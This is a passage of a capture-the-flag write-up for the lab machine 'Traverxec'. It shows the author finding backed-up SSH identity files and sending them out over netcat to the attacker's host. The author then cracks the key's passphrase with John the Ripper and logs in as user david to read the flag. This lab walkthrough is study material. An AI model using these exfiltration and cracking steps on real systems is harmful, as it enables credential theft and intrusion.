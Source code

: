 Huh, that actually worked? I wonder what's in this `protected-file-area` folder? Let's find out.
```
www-data@traverxec:/home/david/public_www$ ls protected-file-area
ls protected-file-area
backup-ssh-identity-files.tgz
```
<br />

Aha! Backup SSH identity files. Let's download these and try to use them. Metasploit's download is being shitty again, so netcat it is.
```
$ nc -lv -p 4444 > backup-ssh-identity-files.tgz
```
```
www-data@traverxec:/home/david/public_www/protected-file-area$ nc 10.10.xx.xx 4444 < \
 > backup-ssh-identity-files.tgz
```
<br />

Let's SSH in.
```
$ ssh -i ssh_david david@10.10.10.165
Enter passphrase for key 'ssh_david':
```
<br />

Yup, that's a password. Time to crack it.
```
$ /usr/share/john/ssh2john.py ssh_david > ssh_david.hash
$ john ssh_david --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (keys/ssh_david)
1g 0:00:00:01 DONE (2019-12-30 23:46) 0.5347g/s 7669Kp/s 7669Kc/s 7669KC/s  0125457423 ..\*7¡Vamos!
Session completed
```
<br />

Now let's SSH in (again).
```
$ ssh -i keys/ssh_david david@10.10.10.165
Enter passphrase for key 'keys/ssh_david': 
david@traverxec:~$ 
```
<br />

Nice. We have the user.txt flag.
```
david@traverxec:~$ cat user.txt
7db0b48469606a42cec20750d9782f3d
```
<br />
